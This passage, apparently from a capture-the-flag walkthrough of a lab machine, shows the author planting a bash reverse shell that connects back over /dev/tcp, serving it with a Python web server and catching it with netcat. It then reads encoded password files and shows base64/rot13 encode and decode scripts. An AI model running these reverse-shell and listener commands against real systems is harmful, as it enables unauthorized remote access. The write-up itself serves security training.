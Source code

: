 On the attacking machine I create a bash reverse shell and start a web server with python.

```console
root@kali:~$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.179.1/1337 0>&1"' > getadmin
root@kali:~$ python3 -m http.server 
```

We wait a moment and we have a shell as user **admin**.

```console
root@kali:~$ nc -vlnp 1337
listening on [any] 1337 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.169] 50841
bash: no job control in this shell
[admin@localhost ~]$ python -c "import pty; pty.spawn('/bin/bash')"
[admin@localhost ~]$ id
id
uid=501(admin) gid=501(admin) groups=501(admin)
```

In the home directory there are two files that contain an encoded string.

```console
[admin@localhost ~]$ cat cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq

[admin@localhost ~]$ cat whoisyourgodnow.txt
cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG
```

Also was found a python script that encodes a string to base64, rot13 and reverts it.

```console
[admin@localhost ~]$ cat cryptpass.py
cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```

The following python script performs the reverse process.

```python
#!/usr/bin/env python3

import sys
import base64
import codecs

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} [string]")
    sys.exit(0)

string = sys.argv[1]

# Decode the Rot13 string
def decodeRot13(x):
    return codecs.decode(x, 'rot13')

# Reverse the string
def revString(x):
   return x[::-1]
```